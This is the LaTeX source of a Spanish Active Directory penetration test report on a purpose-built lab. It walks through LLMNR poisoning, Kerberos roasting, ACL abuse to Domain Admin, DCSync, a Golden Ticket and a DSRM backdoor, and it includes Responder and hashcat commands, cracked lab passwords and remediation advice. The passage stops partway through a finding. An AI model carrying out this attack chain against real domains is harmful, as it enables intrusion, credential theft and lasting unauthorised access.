%% ============================================================
%%  AD Attack Lab — Active Directory Penetration Test Report
%%  Autor: Clark Espinal
%%  Fecha: Junio 2026
%% ============================================================
\documentclass[11pt,a4paper]{article}

\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage[spanish]{babel}
\usepackage[margin=2.5cm, top=3cm, bottom=3cm]{geometry}
\usepackage{xcolor}
\usepackage{graphicx}
\usepackage{booktabs}
\usepackage{tabularx}
\usepackage{array}
\usepackage{enumitem}
\usepackage{fancyhdr}
\usepackage{titlesec}
\usepackage{hyperref}
\usepackage{listings}
\usepackage{tcolorbox}
\usepackage{multirow}
\usepackage{colortbl}
\usepackage{parskip}
\usepackage{tikz}
\usepackage{lmodern}
\usepackage[activate={true,nocompatibility},letterspace=150]{microtype}
\usepackage{caption}
\setlength{\headheight}{14.5pt}
\usetikzlibrary{shapes.geometric, arrows.meta, positioning, shadows}
\tcbuselibrary{skins, breakable}

%% Colores
\definecolor{critical}{HTML}{C0392B}
\definecolor{high}{HTML}{E67E22}
\definecolor{medium}{HTML}{F1C40F}
\definecolor{low}{HTML}{27AE60}
\definecolor{darkbg}{HTML}{111827}
\definecolor{accentblue}{HTML}{4A90D9}
\definecolor{accentbluedark}{HTML}{1A3A5C}
\definecolor{lightgray}{HTML}{F5F6FA}
\definecolor{codebg}{HTML}{1E1E2E}
\definecolor{codetext}{HTML}{CDD6F4}
\definecolor{bordercolor}{HTML}{DDDDDD}
\definecolor{textmuted}{HTML}{6B7280}
\definecolor{textlight}{HTML}{9CA3AF}

\hypersetup{
    colorlinks=true,
    linkcolor=accentbluedark,
    urlcolor=accentblue,
    citecolor=accentbluedark,
    pdftitle={Active Directory Penetration Test Report},
    pdfauthor={Clark Espinal},
}

\lstset{
    backgroundcolor=\color{codebg},
    basicstyle=\ttfamily\footnotesize\color{codetext},
    breaklines=true,
    breakatwhitespace=false,
    columns=flexible,
    keepspaces=true,
    frame=single,
    framesep=5pt,
    rulecolor=\color{accentblue},
    xleftmargin=10pt,
    xrightmargin=10pt,
    aboveskip=8pt,
    belowskip=8pt,
    showstringspaces=false,
    inputencoding=utf8,
    extendedchars=false,
}

\pagestyle{fancy}
\fancyhf{}
\fancyhead[L]{\textcolor{accentblue}{\small\textsc{Active Directory Penetration Test Report}}}
\fancyhead[R]{\textcolor{textmuted}{\small Clark Espinal $\cdot$ Junio 2026}}
\fancyfoot[C]{\textcolor{textmuted}{\small\thepage}}
\renewcommand{\headrulewidth}{0.5pt}
\renewcommand{\footrulewidth}{0pt}
\renewcommand{\headrule}{\color{accentblue}\hrule width\headwidth height\headrulewidth}

\titleformat{\section}
  {\large\bfseries\color{accentbluedark}\scshape}
  {\thesection}{1em}{}[\vspace{2pt}\color{accentblue}\titlerule\vspace{4pt}]

\titleformat{\subsection}
  {\normalsize\bfseries\color{accentbluedark}}
  {\thesubsection}{1em}{}

\titleformat{\subsubsection}
  {\normalsize\bfseries\color{textmuted}}
  {\thesubsubsection}{1em}{}

%% ============================================================
\begin{document}
\raggedbottom
\pagenumbering{gobble}

%% ---- PORTADA ----
\begin{titlepage}
\pagecolor{darkbg}
\color{white}

\begin{tikzpicture}[remember picture, overlay]
  \fill[accentblue!60!darkbg] (current page.north west) rectangle +(\paperwidth, -0.35cm);
  \fill[accentblue!60!darkbg] (current page.south west) rectangle +(\paperwidth, 0.35cm);
\end{tikzpicture}

\vspace*{2cm}
\begin{center}

{\small\textls*[200]{\textcolor{accentblue}{\textsc{Offensive Security}}}}\\[1.2cm]

{\fontsize{28}{34}\selectfont\textsc{Active Directory}}\\[0.3cm]
{\fontsize{28}{34}\selectfont\textsc{\textcolor{accentblue}{Penetration Test Report}}}\\[1.8cm]

{\small\textcolor{textlight}{\texttt{ad-attack-lab \ $\cdot$ \ Black-box Assessment}}}\\[2.5cm]

{\color{accentblue!40}\rule{6cm}{0.4pt}}\\[2cm]

{\small\textcolor{textmuted}{Target}}\\[0.2cm]
{\normalsize\textcolor{white}{Nexus Corp --- Dominio \texttt{corp.local}}}\\[0.5cm]
{\small\textcolor{textmuted}{Entorno}}\\[0.2cm]
{\normalsize\textcolor{white}{\texttt{VirtualBox $\cdot$ Windows Server 2022 $\cdot$ Windows 10}}}\\[0.5cm]
{\small\textcolor{textmuted}{Periodo}}\\[0.2cm]
{\normalsize\textcolor{white}{Junio 2026}}\\[0.5cm]
{\small\textcolor{textmuted}{Tipo}}\\[0.2cm]
{\normalsize\textcolor{white}{Black-box $\cdot$ Ofensivo}}\\[2cm]

{\small\textcolor{textmuted}{Autor}}\\[0.3cm]
{\normalsize\textcolor{white}{Clark Espinal}}\\[0.1cm]
{\small\textcolor{textlight}{Penetration Tester}}

\end{center}
\end{titlepage}

\nopagecolor
\pagenumbering{arabic}
\setcounter{page}{1}

%% ---- TOC ----
\thispagestyle{empty}
\begin{center}
{\large\bfseries\scshape\color{accentbluedark} Tabla de Contenidos}\\[0.3cm]
{\color{accentblue}\rule{4cm}{0.5pt}}
\end{center}
\vspace{0.3cm}
\tableofcontents
\newpage

%% ============================================================
\section{Resumen Ejecutivo}
%% ============================================================

Este reporte documenta los resultados de un ejercicio de penetracion ofensiva
realizado sobre el laboratorio \textbf{ad-attack-lab}, un entorno Active Directory
deliberadamente mal configurado que simula una red corporativa real bajo el
nombre ficticio \emph{Nexus Corp}.

El objetivo fue replicar una cadena de compromiso realista partiendo desde
acceso a la red sin credenciales hasta obtener control total del dominio
\texttt{corp.local}, incluyendo persistencia post-compromiso.

\vspace{0.4cm}

\begin{tcolorbox}[colback=critical!8, colframe=critical, boxrule=1pt, arc=3pt,
  title={\textbf{Dominio Completamente Comprometido}},
  fonttitle=\bfseries\color{white}, coltitle=white, colbacktitle=critical]
El engagement resulto en acceso de Domain Admin al dominio \texttt{corp.local},
extraccion de todos los hashes NTLM via DCSync, Golden Ticket forjado con el
hash de \texttt{krbtgt}, acceso SYSTEM a los cuatro hosts y persistencia
permanente via DSRM Backdoor en DC01.
\end{tcolorbox}

\vspace{0.4cm}

\subsection*{Estadisticas del Engagement}

\begin{center}
\begin{tabular}{lc}
\toprule
\textbf{Metrica} & \textbf{Valor} \\
\midrule
Hallazgos Criticos               & 6 \\
Hallazgos High                   & 3 \\
Hosts comprometidos              & DC01, FILE01, WS01, WS02 \\
Credenciales capturadas          & 6 \\
Hashes NTLM extraidos (DCSync)   & 6 \\
Tecnica de persistencia          & DSRM Backdoor \\
Nivel de acceso final            & Domain Admin + Golden Ticket \\
\bottomrule
\end{tabular}
\end{center}

\vspace{0.4cm}

\subsection*{Top 3 Hallazgos Criticos}

\begin{enumerate}[leftmargin=*, label=\textbf{\arabic*.}]
  \item \textbf{LLMNR/NBT-NS Poisoning} ---
    Sin credenciales previas, Responder capturo el hash NTLMv2 de \texttt{j.smith}
    aprovechando la GPO de FILE01 y la falta de segmentacion de red.
    Password \texttt{Password123!} crackeada en segundos con rockyou.

  \item \textbf{ACL Abuse (ForceChangePwd + WriteDACL) a Domain Admin} ---
    Cadena de tres permisos mal configurados en AD: \texttt{m.jones} fuerza
    cambio de password de \texttt{svc\_backup}, quien abusa WriteDACL sobre
    \texttt{Domain Admins} para otorgarse GenericAll y agregarse al grupo.

  \item \textbf{DCSync + Golden Ticket} ---
    Con privilegios de Domain Admin se extrajeron todos los hashes del dominio.
    Golden Ticket forjado con \texttt{krbtgt}: acceso irrevocable por 10 anios
    que sobrevive cambios de password.
\end{enumerate}

\newpage

%% ============================================================
\section{Entorno del Laboratorio}
%% ============================================================

\subsection{Infraestructura Desplegada}

El laboratorio fue construido sobre VirtualBox con cuatro maquinas virtuales
configuradas mediante scripts PowerShell modulares. Cada script introduce
misconfiguraciones intencionales que representan vectores de ataque reales.

\begin{center}
\begin{tabularx}{\textwidth}{llXl}
\toprule
\textbf{Host} & \textbf{IP} & \textbf{Rol} & \textbf{OS} \\
\midrule
DC01   & 10.10.10.10 & Domain Controller, ADCS        & Windows Server 2022 \\
FILE01 & 10.10.10.20 & File Server, GPO distribuida   & Windows Server 2022 \\
WS01   & 192.168.1.5 / 10.10.10.30 & Workstation pivot & Windows 10 \\
WS02   & 10.10.10.40 & Workstation, MSSQL             & Windows 10 \\
\midrule
Kali   & 192.168.1.3 & Atacante                       & Kali Linux \\
\bottomrule
\end{tabularx}
\end{center}

\vspace{0.4cm}

\subsection{DC01 --- Domain Controller}

\texttt{01\_install\_adds.ps1} instala Active Directory Domain Services y
promueve DC01 como controlador del dominio \texttt{corp.local}.

\begin{center}

\includegraphics[width=0.78\textwidth]{../screenshots/Infraestructura/DC01_01_install_adds.png}
\captionof*{figure}{\small\textcolor{textmuted}{DC01: instalacion de ADDS}}
\end{center}

\texttt{03\_create\_users.ps1} crea los usuarios del dominio con misconfiguraciones
intencionales: \texttt{m.jones} con \texttt{DONT\_REQ\_PREAUTH} habilitado
(AS-REP Roastable) y \texttt{svc\_sql} con SPN registrado (Kerberoastable).

\begin{center}

\includegraphics[width=0.78\textwidth]{../screenshots/Infraestructura/DC01_03_create_users.png}
\captionof*{figure}{\small\textcolor{textmuted}{DC01: usuarios con misconfiguraciones de Kerberos}}
\end{center}

\texttt{04\_acl\_abuse.ps1} configura la cadena de ACLs vulnerables:
\texttt{m.jones} recibe \texttt{ForceChangePassword} sobre \texttt{svc\_backup},
y \texttt{svc\_backup} recibe \texttt{WriteDACL} sobre \texttt{Domain Admins}.
Esta combinacion es el vector de escalada principal (F05).

\begin{center}

\includegraphics[width=0.78\textwidth]{../screenshots/Infraestructura/DC01_04_acl_abuse.png}
\captionof*{figure}{\small\textcolor{textmuted}{DC01: ACLs vulnerables --- ForceChangePwd + WriteDACL}}
\end{center}

\texttt{05\_install\_adcs.ps1} instala Active Directory Certificate Services
con una plantilla ESC1 preparada como vector adicional.

\begin{center}

\includegraphics[width=0.78\textwidth]{../screenshots/Infraestructura/DC01_05_install_adcs.png}
\captionof*{figure}{\small\textcolor{textmuted}{DC01: ADCS instalado con plantilla ESC1}}
\end{center}

\subsection{FILE01 --- File Server}

\texttt{03\_create\_shares.ps1} crea el share \texttt{data} accesible para
cualquier usuario autenticado del dominio, sin restricciones adicionales.
Contiene archivos con credenciales en texto claro (F06).

\begin{center}

\includegraphics[width=0.78\textwidth]{../screenshots/Infraestructura/FILE01_03_create_shares.png}
\captionof*{figure}{\small\textcolor{textmuted}{FILE01: share data sin restricciones}}
\end{center}

\texttt{04\_gpo\_misconfiguration.ps1} crea la GPO que ejecuta
\texttt{startup.bat} con un path UNC a FILE01 como SYSTEM en cada boot de WS01.
Este script es el origen directo del broadcast LLMNR capturado en Fase 00.

\begin{center}

\includegraphics[width=0.78\textwidth]{../screenshots/Infraestructura/FILE01_04_gpo_misconfiguration.png}
\captionof*{figure}{\small\textcolor{textmuted}{FILE01: GPO con UNC path --- origen del LLMNR poisoning}}
\end{center}

\subsection{WS01 --- Workstation Pivot}

WS01 es dual-homed (192.168.1.5 y 10.10.10.30), actuando como punto de
pivotaje hacia la red interna. \texttt{03\_ligolo\_prep.ps1} deshabilita
Windows Defender para permitir la ejecucion del agente Ligolo-ng.

\begin{center}

\includegraphics[width=0.78\textwidth]{../screenshots/Infraestructura/WS01_03_ligolo_prep.png}
\captionof*{figure}{\small\textcolor{textmuted}{WS01: preparacion para agente Ligolo-ng}}
\end{center}

\subsection{WS02 --- Workstation con MSSQL}

\texttt{03\_mssql\_install.ps1} instala SQL Server con \texttt{svc\_sql}
como cuenta de servicio, registrando el SPN \texttt{MSSQLSvc/WS02:1433}
que habilita el ataque Kerberoasting (F04).

\begin{center}

\includegraphics[width=0.78\textwidth]{../screenshots/Infraestructura/WS02_03_mssql_install.png}
\captionof*{figure}{\small\textcolor{textmuted}{WS02: MSSQL con svc\_sql como service account}}
\end{center}

\texttt{04\_acl\_genericwrite.ps1} otorga a \texttt{j.smith} permiso WRITE
sobre \texttt{CN=WS02}, habilitando RBCD como vector alternativo.

\begin{center}

\includegraphics[width=0.78\textwidth]{../screenshots/Infraestructura/WS02_04_acl_genericwrite.png}
\captionof*{figure}{\small\textcolor{textmuted}{WS02: j.smith con GenericWrite sobre WS02}}
\end{center}

\newpage

%% ============================================================
\section{Scope y Metodologia}
%% ============================================================

\subsection{Alcance del Engagement}

\begin{center}
\begin{tabularx}{\textwidth}{lX}
\toprule
\textbf{Elemento} & \textbf{Detalle} \\
\midrule
Tipo de prueba     & Black-box (sin credenciales iniciales) \\
Dominio            & corp.local \\
Red externa        & 192.168.1.0/24 \\
Red interna        & 10.10.10.0/24 \\
DC01               & 10.10.10.10 \\
FILE01             & 10.10.10.20 \\
WS01               & 10.10.10.30 / 192.168.1.5 \\
WS02               & 10.10.10.40 \\
Servicios en scope & SMB, LDAP, Kerberos, MSSQL, WinRM, LLMNR \\
\bottomrule
\end{tabularx}
\end{center}

\subsection{Herramientas Utilizadas}

\begin{center}
\begin{tabular}{llp{6.5cm}}
\toprule
\textbf{Herramienta} & \textbf{Fase} & \textbf{Proposito} \\
\midrule
\texttt{nmap}                   & Recon       & Escaneo de puertos y servicios \\
\texttt{Responder}              & Inicial     & LLMNR/NBT-NS poisoning \\
\texttt{hashcat}                & Creds       & Crackeo offline NTLMv2, AS-REP, TGS \\
\texttt{CrackMapExec/netexec}   & Todas       & Verificacion de credenciales SMB \\
\texttt{impacket}               & Todas       & psexec, secretsdump, ticketer, GetNPUsers \\
\texttt{bloodyAD}               & Privesc     & Enumeracion y abuso de ACLs en AD \\
\texttt{ldapdomaindump}         & Enum        & Volcado completo del dominio via LDAP \\
\texttt{ligolo-ng}              & Pivoting    & Tunel transparente hacia red interna \\
\texttt{ad\_recon.py}           & Enum        & Reconocimiento automatico del dominio \\
\texttt{faketime}               & Kerberos    & Compensacion de clock skew \\
\bottomrule
\end{tabular}
\end{center}

\subsection{Fases del Engagement}

\begin{center}
\begin{tabular}{clll}
\toprule
\textbf{Fase} & \textbf{Nombre} & \textbf{Estado} & \textbf{Resultado} \\
\midrule
00 & LLMNR Poisoning         & \textcolor{low}{\textbf{Completado}} & Hash NTLMv2 j.smith capturado \\
01 & Enumeracion del dominio & \textcolor{low}{\textbf{Completado}} & SYSTEM WS01 + ldapdump \\
02 & Credential Attacks      & \textcolor{low}{\textbf{Completado}} & AS-REP m.jones + Kerberoast svc\_sql \\
03 & Pivoting (Ligolo-ng)    & \textcolor{low}{\textbf{Completado}} & Acceso a 10.10.10.0/24 \\
04 & Lateral Movement        & \textcolor{low}{\textbf{Completado}} & Credenciales en texto claro FILE01 \\
05 & Privilege Escalation    & \textcolor{low}{\textbf{Completado}} & svc\_backup $\to$ Domain Admin \\
06 & Domain Compromise       & \textcolor{low}{\textbf{Completado}} & DCSync + Golden Ticket + SYSTEM x4 \\
07 & Persistencia            & \textcolor{low}{\textbf{Completado}} & DSRM Backdoor en DC01 \\
\bottomrule
\end{tabular}
\end{center}

\newpage

%% ============================================================
\section{Cadena de Ataque}
%% ============================================================

\subsection{Diagrama}

\begin{center}
\begin{tikzpicture}[
  node distance=1.0cm and 0.2cm,
  every node/.style={font=\small},
  phase/.style={
    rectangle, rounded corners=5pt,
    minimum width=3.1cm, minimum height=0.9cm,
    text centered, text=white, font=\small\bfseries,
    drop shadow
  },
  lbl/.style={font=\tiny\color{textmuted}, above=2pt},
  arrow/.style={-{Stealth[length=7pt,width=5pt]}, thick, color=accentblue!80},
]
\node[phase, fill=accentbluedark]               (llmnr)   {00 LLMNR Poison};
\node[phase, fill=accentbluedark, right=of llmnr](enum)   {01 Enumeracion};
\node[phase, fill=accentblue,    right=of enum]  (creds)  {02 Cred Attacks};
\node[phase, fill=accentblue,    right=of creds] (pivot)  {03 Pivoting};

\node[phase, fill=high,     below=of pivot]    (lateral) {04 Lateral Mov.};
\node[phase, fill=high,     left=of lateral]   (privesc) {05 ACL Abuse};
\node[phase, fill=critical, left=of privesc]   (dcsync)  {06 DCSync};
\node[phase, fill=critical, left=of dcsync]    (golden)  {Golden Ticket};

\node[phase, fill=darkbg,   below=of golden] (persist) {07 DSRM Backdoor};

\node[lbl] at (llmnr.north)   {Responder};
\node[lbl] at (enum.north)    {psexec / ldapdump};
\node[lbl] at (creds.north)   {AS-REP / Kerberoast};
\node[lbl] at (pivot.north)   {ligolo-ng};
\node[lbl] at (lateral.north) {smbclient / loot};
\node[lbl] at (privesc.north) {bloodyAD};
\node[lbl] at (dcsync.north)  {secretsdump};
\node[lbl] at (golden.north)  {ticketer};
\node[lbl] at (persist.north) {DsrmAdminLogon=2};

\draw[arrow] (llmnr)   -- (enum);
\draw[arrow] (enum)    -- (creds);
\draw[arrow] (creds)   -- (pivot);
\draw[arrow] (pivot)   -- (lateral);
\draw[arrow] (lateral) -- (privesc);
\draw[arrow] (privesc) -- (dcsync);
\draw[arrow] (dcsync)  -- (golden);
\draw[arrow] (golden)  -- (persist);
\end{tikzpicture}
\end{center}

\subsection{Narrativa}

\begin{enumerate}[leftmargin=*, label=\textbf{Paso \arabic*.}]
  \item \textbf{LLMNR Poisoning:} Responder en escucha sobre 192.168.1.0/24.
    La GPO de FILE01 ejecuta \texttt{startup.bat} con \texttt{net use \textbackslash\textbackslash FILE01\textbackslash it-tools} como SYSTEM al arrancar WS01.
    Cuando FILE01 no resuelve via DNS, WS01 emite un broadcast LLMNR que Responder
    envenena, capturando el hash NTLMv2 de \texttt{j.smith}. Password
    \texttt{Password123!} crackeada offline con rockyou.

  \item \textbf{Enumeracion:} Con \texttt{j.smith:Password123!} se confirmo
    acceso SMB a WS01 (Pwn3d!) via CrackMapExec. Shell SYSTEM via psexec.
    Enumeracion del dominio con \texttt{ad\_recon.py} y \texttt{ldapdomaindump}:
    \texttt{m.jones} con DONT\_REQ\_PREAUTH, \texttt{svc\_sql} con SPN registrado.

  \item \textbf{Credential Attacks:} AS-REP Roasting contra \texttt{m.jones}
    y Kerberoasting contra \texttt{svc\_sql} (SPN \texttt{MSSQLSvc/WS02:1433}).
    Hashes crackeados: \texttt{m.jones:Welcome1} y \texttt{svc\_sql:Summer2024!}.

  \item \textbf{Pivoting:} Agente ligolo-ng subido a WS01 via SMB y ejecutado
    como SYSTEM. Tunel TUN hacia 10.10.10.0/24. DC01, FILE01 y WS02 alcanzables
    directamente desde Kali.

  \item \textbf{Lateral Movement:} Con \texttt{m.jones:Welcome1} se accedio
    al share \texttt{data} en FILE01. \texttt{config.ini} expuso
    \texttt{svc\_sql:Summer2024!} e \texttt{it-notes.txt} expuso
    \texttt{svc\_backup:Backup2024!} en texto claro.

  \item \textbf{Privilege Escalation:} Tres pasos: (1) \texttt{m.jones}
    fuerza cambio de password de \texttt{svc\_backup} a \texttt{Hacked123!}
    via ForceChangePassword; (2) \texttt{svc\_backup} se otorga GenericAll
    sobre Domain Admins via WriteDACL; (3) se agrega a Domain Admins.
    CrackMapExec confirma Pwn3d! contra DC01.

  \item \textbf{Domain Compromise:} DCSync con \texttt{svc\_backup} extrae todos
    los hashes del dominio incluyendo \texttt{Administrator} y \texttt{krbtgt}.
    Golden Ticket forjado con el hash de \texttt{krbtgt}: TGT valido por
    10 anios para Administrator. Pass-the-Hash a WS02 y FILE01: SYSTEM en
    los cuatro hosts.

  \item \textbf{Persistencia:} DSRM Backdoor en DC01: \texttt{DsrmAdminLogonBehavior=2}
    habilitado via \texttt{atexec}. El hash local del Administrator de DC01
    provee acceso permanente independiente del dominio, sobreviviendo cambios
    de password y reinicios.
\end{enumerate}

\newpage

%% ============================================================
\section{Hallazgos}
%% ============================================================

%% ---- F01 ----
\subsection{F01 --- LLMNR/NBT-NS Poisoning}

\begin{tcolorbox}[colback=critical!6, colframe=critical, boxrule=1pt, arc=3pt,
  title={\textbf{F01 $\cdot$ LLMNR/NBT-NS Poisoning} \hfill \textbf{CVSS 8.8 --- Critical}},
  fonttitle=\bfseries\color{white}, coltitle=white, colbacktitle=critical, breakable]

\textbf{Host:} Red 192.168.1.0/24, WS01\\[4pt]

\textbf{Descripcion:}
LLMNR y NBT-NS habilitados en WS01 sin segmentacion de red.
La GPO ejecuta un script UNC como SYSTEM al arrancar. Cuando el nombre
no resuelve por DNS, WS01 emite un broadcast que Responder intercepta,
capturando el hash NTLMv2 de \texttt{j.smith} y permitiendo crackearlo offline.

\begin{lstlisting}
sudo responder -I eth0 -wv
# [SMB] NTLMv2-SSP Hash from 192.168.1.5
# j.smith::CORP:ab34f1...<NTLMv2-hash>

hashcat -m 5600 00_hash_jsmith.txt rockyou.txt
# j.smith::CORP:...:Password123!
\end{lstlisting}

\begin{center}

\includegraphics[width=0.78\textwidth]{../screenshots/Attack/00_responder_hashcat.png}
\captionof*{figure}{\small\textcolor{textmuted}{Hash NTLMv2 capturado y crackeado con hashcat}}
\end{center}

\textbf{Remediacion:}
\begin{itemize}[noitemsep]
  \item Deshabilitar LLMNR via GPO: \textit{Computer > Admin Templates > Network > DNS Client > Turn off multicast name resolution}
  \item Deshabilitar NBT-NS en todas las interfaces de red del dominio
  \item Implementar segmentacion de red para aislar workstations de la red de atacantes
  \item Corregir paths UNC en GPOs para usar FQDNs validados
  \item Aplicar politica de passwords fuertes (minimo 15 caracteres)
\end{itemize}
\end{tcolorbox}

\vspace{0.4cm}

%% ---- F02 ----
\subsection{F02 --- SMB Signing Deshabilitado}

\begin{tcolorbox}[colback=high!6, colframe=high, boxrule=1pt, arc=3pt,
  title={\textbf{F02 $\cdot$ SMB Signing Deshabilitado} \hfill \textbf{CVSS 7.5 --- High}},
  fonttitle=\bfseries\color{white}, coltitle=white, colbacktitle=high, breakable]

\textbf{Host:} WS01 (192.168.1.5)\\[4pt]

\textbf{Descripcion:}
SMB signing deshabilitado en WS01 habilita ataques NTLM relay.
Un atacante puede retransmitir autenticaciones SMB a otros hosts sin crackear
el hash, obteniendo acceso directo. En este engagement se crackeo offline,
